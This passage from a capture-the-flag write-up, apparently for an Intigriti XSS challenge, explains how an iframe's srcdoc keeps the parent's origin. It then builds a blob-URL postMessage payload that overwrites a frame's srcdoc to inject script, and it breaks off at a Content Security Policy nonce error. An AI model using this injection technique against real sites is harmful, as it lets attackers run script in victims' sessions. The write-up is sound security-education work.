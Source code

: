 We came across two interesting attributes of `<iframe>`, `src` and `srcdoc`.
The cool thing about changing the `srcdoc` is that it doesn't switch context.
The `iframe` keeps having access to the parent. It's not really considered a new
domain so it doesn't break SameOriginPolicy. See for yourself https://editor.43z.one/mgwn6

```
<script>
  var i = "i'm a global variable"
</script>

<iframe srcdoc="<script>alert(parent.i)</script>"></iframe>
```
That's because it never changed domain. If we run this 

```
<iframe srcdoc="<script>alert(document.domain)</script>"></iframe>
```
from https://editor.43z.one/244ck it would show `editor.43z.one`.

This is perfect. We will use this fact about `srcdoc` to our advantage.
We will craft a message that triggers this part of the code
```
  case 'set':
    [...document.querySelectorAll(e.data.element)].forEach(s => s.setAttribute(e.data.attr, e.data.value));
    break;
```
And change the `srcdoc` of the `<iframe>`. 
Just a quick reminder, at that point the iframe will no longer hold the `magic.php` 
but our blobed URL which send the command the change the `srcdoc` in the first place.

https://editor.43z.one/bh2ba
```
<iframe onload=run() src="https://challenge-0922.intigriti.io/challenge/"></iframe>
<script>
  run = e => {
    burl = URL.createObjectURL(new Blob([`
      <script>
        parent.postMessage({
          element: '#ball',
          action: 'set',
          attr: 'srcdoc',
          value: '<script>alert(document.domain)</'+'script>'
        }, '*') 
      <\/script>
    `], {type : 'text/html'}))
    frames[0][0].location = burl 
  }
</script>
```
But what is that. Another error!
```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-fd66e11600987aa40022b9942292461'". Either the 'unsafe-inline' keyword, a hash ('sha256-X6WoVv8sUlFXk0r+MI/R+p2PsbD1k74Z+jLIpYAjIgE='), or a nonce ('nonce-...') is required to enable inline execution.
```
We forgot! As changing the `srcdoc` does not change the context, the CSP of `challenge-0922.intigriti.io`
is still is enforced! That means the `script` block that holds our payload will need
to have the correct `nonce` to be allowed to execute. 
The same nonce that the CSP sets in the `<meta>` tag with `...script-src 'nonce-fd66e11600987aa40022b9942292461';...`.
